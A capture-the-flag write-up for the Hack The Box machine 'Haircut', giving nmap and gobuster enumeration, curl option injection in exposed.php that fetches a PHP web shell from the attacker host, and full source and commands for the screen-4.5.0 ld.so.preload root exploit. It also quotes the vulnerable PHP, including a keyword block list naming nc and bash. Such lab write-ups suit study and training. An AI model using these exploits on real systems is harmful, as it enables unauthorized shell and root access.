

# Summary


## about target

tip:  10.129.95.174

hostname:  Haircut

Difficulty:  Medium


## about attack

+ web scan with extension, if no found.
+ exploit web, curl options injection.


**attack note**

```bash
Haircut / 10.129.95.174

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e975c1e4b3633c93f2c618083648ce36 (RSA)
|   256 8700aba98f6f4bbafbc67a55a860b268 (ECDSA)
|_  256 b61b5ca9265cdc61b775906c88516e54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser


---- interesting
-- bounce.jpg, no use; 
CDEFGHIJSTUVWXYZcdefghijstuvwxyz

Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux


--

---- http enum
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log

# no found.

# gobuster with extension.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log -x php,html

/exposed.php


---- exploit
# exposed.php 
## exploit -o options, upload shell
http://10.10.14.20/phpshell.php -o uploads/phpshell.php
http://localhost/uploads/phpshell.php

---- local enum

suid, ntfs-3g, pkexec, screen-4.5.0 


---- root

cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c

cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c

cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed

screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```


# Enum

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e975c1e4b3633c93f2c618083648ce36 (RSA)
|   256 8700aba98f6f4bbafbc67a55a860b268 (ECDSA)
|_  256 b61b5ca9265cdc61b775906c88516e54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-server-header: nginx/1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser
```


## http enum

dir scan, found nothing.

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log
```


scan with extension, php, found /exposed.php

```bash
# gobuster with extension.
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://$tip/ -o gobuster.log -x php,html
```


/exposed.php,   no RFI.


exploit the exposed.php, (curl command)


# Exploit

```bash
## exploit -o options, upload shell
http://10.10.14.20/phpshell.php -o uploads/phpshell.php
http://localhost/uploads/phpshell.php

```

got shell.


# Privesc


## loca enum

found suid file, screen-4.5.0 

exploit, https://www.exploit-db.com/exploits/41154


## system

compile local on kali. arm not work

```bash
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF

gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c

cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF

gcc -o /tmp/rootshell /tmp/rootshell.c
```


exploit

```bash
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed

screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

got root.




## Beyond root

Exposed.php

```php
<html>
    <head>
    <title>Hairdresser checker</title>
    </head>
    <body>
    <form action='exposed.php' method='POST'>
    <span>
    <p>
    Enter the Hairdresser's location you would like to check. Example: http://localhost/test.html
                </p>
                </span>
                <input type='text' name='formurl' id='formurl' width='50' value='http://localhost/test.html'/>
<input type='submit' name='submit' value='Go' id='submit' />
    </form>
    <span>
    <?php 
    if(isset($_POST['formurl'])){
        echo "<p>Requesting Site...</p>"; 
        $userurl=$_POST['formurl'];
        $naughtyurl=0;
        $disallowed=array('%','!','|',';','python','nc','perl','bash','&','#','{','}','[',']');
        foreach($disallowed as $naughty){
            if(strpos($userurl,$naughty) !==false){
                echo $naughty.' is not a good thing to put in a URL';
                $naughtyurl=1;
            }
        }
        if($naughtyurl==0){
            echo shell_exec("curl ".$userurl." 2>&1"); 
        }
    }
?>
    </span>
    </body>
    </html>
```

